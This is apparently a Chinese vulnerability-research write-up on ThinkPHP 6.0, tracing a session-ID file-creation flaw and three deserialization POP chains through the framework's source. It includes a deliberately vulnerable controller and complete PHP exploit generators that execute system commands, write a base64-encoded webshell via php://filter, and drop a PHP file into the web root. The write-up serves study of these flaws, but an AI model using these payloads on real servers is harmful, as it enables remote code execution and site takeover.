





# 环境搭建
> - 安装

> - [复现源码下载链接](https://share.weiyun.com/dtE9mOaC)
> - 修改配置文件，将 `.example.env` copy到 `.env`

# 任意文件创建漏洞
## 漏洞环境
> - 将 `tp/app/controller/Index.php` 内容修改为

```php
<?php
namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index()
    {
        session('demo', $_REQUEST['H3rmesk1t']);
        return '<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px;} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }</style><div style="padding: 24px 48px;"> <h1>:) </h1><p> ThinkPHP V' . \think\facade\App::version() . '<br/><span style="font-size:30px;">14载初心不改 - 你值得信赖的PHP框架</span></p><span style="font-size:25px;">[ V6.0 版本由 <a href="https://www.yisu.com/" target="yisu">亿速云</a> 独家赞助发布 ]</span></div><script type="text/javascript" src="https://tajs.qq.com/stats?sId=64890268" charset="UTF-8"></script><script type="text/javascript" src="https://e.topthink.com/Public/static/client.js"></script><think id="ee9b1aa918103c4fc"></think>';
    }

    public function hello($name = 'ThinkPHP6')
    {
        return 'hello,' . $name;
    }
}
```
> - 将 `tp/app/middleware.php` 内容修改为

```php
<?php
// 全局中间件定义文件
return [
    // 全局请求缓存
    // \think\middleware\CheckRequestCache::class,
    // 多语言加载
    // \think\middleware\LoadLangPack::class,
    // Session初始化
     \think\middleware\SessionInit::class
];
```
## 漏洞分析
> - 查看版本的更新日志发现修正了 sessionid 检查的一处隐患，[相关内容](https://github.com/top-think/framework/commit/1bbe75019ce6c8e0101a6ef73706217e406439f2)，修复代码中主要多了 `ctype_alnum($id)`，只允许 `$id` 由字母和数字构成


> - 跟进修复文件 `src/think/session/Store.php`，发现其和文件存储 session 相关

> - 跟进 `src/think/session/Store.php` 中的 `setId()` 方法，查找其用法，继续跟进到 `src/think/middleware/SessionInit.php` 中的 `handle()` 方法



> - 发现变量 `$sessionId` 是可控的，可以通过 `$cookieName` 变量来设置变量 `$sessionId` 的值，继续跟进 `getName()` 方法，跟进到 `src/think/session/Store.php` 发现变量 `$this->name` 的固定值是 `PHPSESSID`，所以通过控制修改 Cookie 中的 PHPSESSID 的值来进而触发到后面的利用


> - 继续分析 `src/think/session/Store.php` 中的 `setId()` 方法，这里如果 PHPSESSID 对应值长度等于 32，则无任何过滤直接赋值


> - 继续跟进，先返回 `$response` 的值，进而步进到 `src/think/middleware/SessionInit.php` 中的 `end()` 方法调用 `src/think/session/Store.php` 的 `save()` 方法



> - 调用 `write()` 方法进而进入到 `src/think/session/driver/File.php` 调用 `write()` 方法进入到 `writeFile()`方法来进行文件内容的写入


## 漏洞利用


## 漏洞利用链


# 反序列化漏洞
## 漏洞环境
> - 将 `tp/app/controller/Index.php` 内容修改为

```php
<?php

namespace app\controller;
use app\BaseController;

class Index extends BaseController
{
    public function index()
    {
        if(isset($_POST['data'])){
            @unserialize(base64_decode($_POST['data']));
        }
        highlight_string(file_get_contents(__FILE__));
        return '<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px;} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }</style><div style="padding: 24px 48px;"> <h1>:) </h1><p> ThinkPHP V' . \think\facade\App::version() . '<br/><span style="font-size:30px;">14载初心不改 - 你值得信赖的PHP框架</span></p><span style="font-size:25px;">[ V6.0 版本由 <a href="https://www.yisu.com/" target="yisu">亿速云</a> 独家赞助发布 ]</span></div><script type="text/javascript" src="https://tajs.qq.com/stats?sId=64890268" charset="UTF-8"></script><script type="text/javascript" src="https://e.topthink.com/Public/static/client.js"></script><think id="ee9b1aa918103c4fc"></think>';
    }
}
```

## 利用条件
> 1. 有一个内容完全可控的反序列化点，例如： unserialize (可控变量)
> 2. 存在文件上传、文件名完全可控、使用了文件操作函数，例如：file_exists ('phar://恶意文件')

## POP链-1
### 漏洞分析
> - 先找一个反序列化的触发入口，全局搜索 `__destruct()` 方法



> - 跟进 `src/Model.php` 中的 `__destruct()` 方法，由于变量 `lazySave` 是可控的，当其值为 True 时会进入 if 函数，进而调用 `save()` 方法



> - 跟进 `save()` 方法，继续跟进其调用的 `updateData()` 方法，在 `updateData()` 方法中发现其调用了一个字段检查的 `checkAllowFields()` 方法


> - 跟进 `checkAllowFields()` 方法，继续跟进 `db()` 方法，发现 `$this->table` 和 `$this->suffix` 均是可控的，故可以利用该字符串拼接来触发 `__toString()` 方法进而来调用后续链子


> - 思路有了，继续看看要如何才能不出错的走到 `checkAllowFields()` 方法
> 1. 满足 `src/Model.php` 中 `__destruct` 方法里的 `$this->lazySave` 为 True 从而进入 `save()` 方法
> 2. 满足 `src/Model.php` 里 `save()` 方法的第一个 if 函数为 False 从而绕过 return，即需要满足 `$this->isEmpty()==false && $this->trigger('BeforeWrite')==true`；接着走到三目运算符进行判断，满足 `$this->exists` 值为 True 从而进入 `updateData()` 方法
> 3. 满足 `src/Model.php` 里 `updateData()` 方法的 `true===$this->trigger('BeforeUpdate')` 从而绕过第一个 if 判断，接着需要满足 `$data!=null` 来绕过第二个 if 的判断进而进入 `checkAllowFields()` 方法
> 4. 满足 `src/Model.php` 里 `checkAllowFields()` 方法的 `$this->field=null && $this->schema=null` 从而进入 `db()` 方法
> 5. 满足 `src/Model.php` 里 `db()` 方法的 `$this->table=null` 从而来满足字符串的拼接进而触发 `__toString()` 方法

> - 接着看看如何寻找 `__toString()` 的触发点，全局搜索


> - 跟进 `src/model/concern/Conversion.php` 中的 `toJson()` 方法，继续跟进 `toJson()` 方法发现在返回值中进一步调用了 `toArray()` 方法


> - 跟进 `toArray()` 方法中的 `getAttr()` 方法


> - 跟进 `getAttr()` 方法，发现在 try-catch 结构中会进一步调用 `getData()` 方法


> - 跟进 `getData()` 方法后绕过第一个 if 判断后进一步调用 `getRealFieldName()` 方法


> - 跟进 `getRealFieldName()` 方法，当 `$this->strict` 为 True 时会直接返回 `$name` 的值


> - 现在返回值可以得到了，继续回到之前的 `getData()` 方法，变量 `$fieldName` 得到返回值后进入 `array_key_exists()` 方法进行判断从而返回 `$this->data[$fieldName]`，继续回溯到 `getAttr()` 方法，变量 `$value` 接收到返回值继而执行到 return 部分调用 `getValue()` 方法，进入该方法，一个值得注意的地方 `$value = $closure($value, $this->data)`，在这里 `$closure` 作为想要执行的函数名，`$value` 和 `$this->data` 为参数即可实现任意函数执行



> - 至此整个利用链的过程基本明显了，接着看看怎么才能执行到 `$value = $closure($value, $this->data)`
> 1. 首先看看 `$this->getRealFieldName($name)`，使 `$this->strict==true`，这样不影响 `$name`
> 2. 接着进入 if 判断 `$this->withAttr[$fieldName]` 是否有定义，因此必须外加 `$this->withAttr`
> 3. 接下去对 `$relation` 的 if 判断不用管，关注最后的 if 判断，由于目标是要执行带 else 的代码，因此只需 `is_array($this->withAttr[$fieldName])==false`，那么让 `$this->withAttr[$fieldName]=null` 就可以
> 4. 最后一个赋值语句，可以通过 `$this->withAttr[$fieldName]` 控制想要执行的函数的名称，从而就可以来实现任意函数执行的目的

### exp
> - 由于 `Model` 是一个抽象类，需要找一个它的继承类来，这里选择 `Pivot` 类


```php
<?php
namespace think;
abstract class Model{
    use model\concern\Attribute;
    use model\concern\ModelEvent;
    protected $table;
    private $force;
    private $exists;
    private $lazySave;
    private $data = [];
    function __construct($obj){
        $this->table = $obj;
        $this->force = true;
        $this->exists = true;
        $this->lazySave = true;
        $this->data = ["H3rmesk1t" => "calc.exe"];
    }
}

namespace think\model\concern;
trait ModelEvent{
    protected $withEvent = true;
    protected $visible = ["H3rmesk1t" => "1"];
}
trait Attribute{
    private $withAttr = ["H3rmesk1t" => "system"];
}

namespace think\model;
use think\Model;
class Pivot extends Model{
    function __construct($obj = ''){
        parent::__construct($obj);
    }
}

echo base64_encode(serialize(new Pivot(new Pivot())));
?>
```


### POP链流程图


## POP链-2
### 漏洞分析
> - 继续分析前面寻找的 `__destruct()` 方法，跟进 `vendor/league/flysystem-cached-adapter/src/Storage/AbstractCache.php`


> - 由于 `$this->autosave` 是可控的，可以触发到 `save()` 方法，由于 `AbstractCache` 是一个抽象类，在其本身的 `save()` 方法是不可利用的，故在其继承类中寻找可以利用的 `save()` 方法，跟进 `src/think/filesystem/CacheStore.php` 中的 `save()` 方法


> - 继续跟进其调用的 `getForStorage()` 方法，发现其进一步调用 `cleanContents()` 方法


> - 跟进 `cleanContents()` 方法，其调用 `array_flip()` 方法对数组进行反转来交换数组中的键和值，然后经过 `array_intersect_key()` 函数来使用键名比较计算数组的交集


> 然后函数会将 `$contents` 返回给 `getForStorage()` 中的 `$cleaned`，经过 `json_encode()` 方法后返回给前面的 `save()` 方法，`$contents` 变量接收函数返回值后进入后面的逻辑，此时 `$this->store` 是可控的，可以调用任意类的 `set()` 方法，如果这个指定的类不存在 `set()` 方法，就有可能触发 `__call()`，当然也有可能本身的 `set()` 方法就可以利用

### exp-1
> 直接寻找一个可以利用的 `set()` 方法


> 跟进 `src/think/cache/driver/File.php` 中的 `set()` 方法，发现有一个 `serialize()` 方法


> 继续跟进 `serialize()` 方法，发现 `$this->options` 参数是可控的，从而可以利用 `$this->options['serialize'][0]` 来执行任意函数


> 接着看看需要的参数 `$data` 的来源，溯源发现先是来源于 `$value` 的传值，接着回到 `save()` 方法的 `$contents` 参数，由于 `$contents` 参数来源于 `getForStorage()` 方法，需要经过 `json_encode()` 方法，所以需要使 `json_encode` 后的数据被当作代码执行
> 由于 json_encode 的缘故，命令被方括号包裹导致无法正常执行，在 Linux 环境中可以使用 `command` 这样的形式使被包裹的 command 优先执行


#### POC
```php
<?php 

namespace League\Flysystem\Cached\Storage {
	abstract class AbstractCache {
		protected $autosave = false;
    	protected $complete = "`id`";
        // protected $complete = "\"&whoami&" ;
        // 在Windows环境中反引号无效，用&替代
	}
}

namespace think\filesystem {
	use League\Flysystem\Cached\Storage\AbstractCache;
	class CacheStore extends AbstractCache {
		protected $key = "1";
		protected $store;
		public function __construct($store="") {
			$this->store = $store;
		}
	}
}

namespace think\cache {
	abstract class Driver {
		protected $options = ["serialize"=>["system"],"expire"=>1,"prefix"=>"1","hash_type"=>"sha256","cache_subdir"=>"1","path"=>"1"];
	}
}

namespace think\cache\driver {
	use think\cache\Driver;
	class File extends Driver{}
}

namespace {
	$file = new think\cache\driver\File();
	$cache = new think\filesystem\CacheStore($file);
	echo base64_encode(serialize($cache));
}
?>
```

#### POC链流程图


### exp-2
> 继续跟进 `src/think/cache/driver/File.php` 中的 `set()` 方法，在 `serialize()` 方法后还有一个 `file_put_contents()` 方法


> 主要看看 `$filename` 和 `$data` 这两个参数是怎么赋值的，先跟进一下 `$filename` 参数，其值来源于 `getCacheKey()` 方法，跟进该方法发现 `$filename` 参数是可控的：`$name `为文件名来源于 `$this->key`，`$this->options['hash_type']` 也可控，最终文件名是经过 hash 后的，所以最终文件名可控，`$this->options['path']` 使用 `php filter` 构造 `php://filter/write=convert.base64-decode/resource=think/public/`
> 接着再来看看 `$data` 参数，前面分析已知来源于 `$this->serialize`，此处存在 exit()，正好结合上一步的文件名构造利用 `php://filter` 来绕过死亡 exit()，[参考文章](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)：假设传入的 `$expire=1`，那么写入的 webshell 前面部分在拼接之后能够被解码的有效字符为：`php//000000000001exit` 共有21个，要满足 base64 解码的 4 字符为 1 组的规则，在其前面补上 3 个字符用于逃逸之后的 base64 解码的影响

#### POC
```php
<?php 

namespace League\Flysystem\Cached\Storage {
    abstract class AbstractCache {
        protected $autosave = false;
        protected $complete = "uuuPD9waHAgcGhwaW5mbygpOw==";
    }
}

namespace think\filesystem {
    use League\Flysystem\Cached\Storage\AbstractCache;
    class CacheStore extends AbstractCache {
        protected $key = "1";
        protected $store;
        public function __construct($store="") {
            $this->store = $store;
        }
    }
}

namespace think\cache {
    abstract class Driver {
        protected $options = ["serialize"=>["trim"],"expire"=>1,"prefix"=>false,"hash_type"=>"md5","cache_subdir"=>false,"path"=>"php://filter/write=convert.base64-decode/resource=C:/Tools/phpstudy_pro/WWW/html/ThinkPHP6/public/","data_compress"=>0];
    }
}

namespace think\cache\driver {
    use think\cache\Driver;
    class File extends Driver{}
}

namespace {
    $file = new think\cache\driver\File();
    $cache = new think\filesystem\CacheStore($file);
    echo base64_encode(serialize($cache));
}
?>
```


#### POC链流程图


## POP链-3
### 漏洞分析
> 起始的触发链和上一条 POP 链一样，用 `src/Storage/AbstractCache.php` 的 `__destruct()` 方法中的 `save()` 方法作为起始点，寻找一个继承类的 `save()` 方法来作为触发点，这里跟进 `src/Storage/Adapter.php` 中的 `save()` 方法，其 `$contents` 的值来自于 `getForStorage()` 方法，这里进过的处理和上一条 POP 链分析的时候一样，主要来看看后面的 if...else 操作


> 由于需要通过 `write()` 方法来写入文件，所以需要先使得经过 `has()` 方法后的返回值为 false，这里先寻找一个同时有 `has()` 和 `write()` 方法的类


> 查看源码后发现 `src/Adapter/Local.php` 中的 `Local` 类符合要求，先跟进一下 `has()` 方法


> 跟进 `applyPathPrefix()` 方法，其先调用了前面的 `getPathPrefix()` 方法，其中 `$pathPrefix` 是可控的，`ltrim()` 方法删除字符串开头的 `/` 和 `\`，因此可以直接传入一个文件名，然后控制 pathPrefix 为路径部分，再回到 `has()` 方法执行 `file_exists()` 方法，只需要保证传入的文件名不存在即可返回 false


> 再来看看 `write()` 方法，`$location` 的值来源于 `$this->file` 传入 `applyPathPrefix` 处理后的文件名，`$contents` 的值是经过 `json_encode` 处理后带有文件内容的 json 数据


### exp
```php
<?php 

namespace League\Flysystem\Cached\Storage {
    abstract class AbstractCache {
        protected $autosave = false;
        protected $cache = ["H3rmesk1t" => "<?php phpinfo();?>"];
    }
}

namespace League\Flysystem\Cached\Storage {
    use League\Flysystem\Cached\Storage\AbstractCache;
    class Adapter extends AbstractCache {
        protected $file;
        protected $adapter;
        public function __construct($adapter = "") {
            $this->file = "C:/Tools/phpstudy_pro/WWW/html/ThinkPHP6/public/pop3.php";
            $this->adapter = $adapter;
        }
    }
}

namespace League\Flysystem\Adapter {
    class Local {
        protected $writeFlags = 0;
    }
}

namespace {
    $local = new League\Flysystem\Adapter\Local();
    $cache = new League\Flysystem\Cached\Storage\Adapter($local);
    echo base64_encode(serialize($cache));
}
?>
```


### POP链流程图

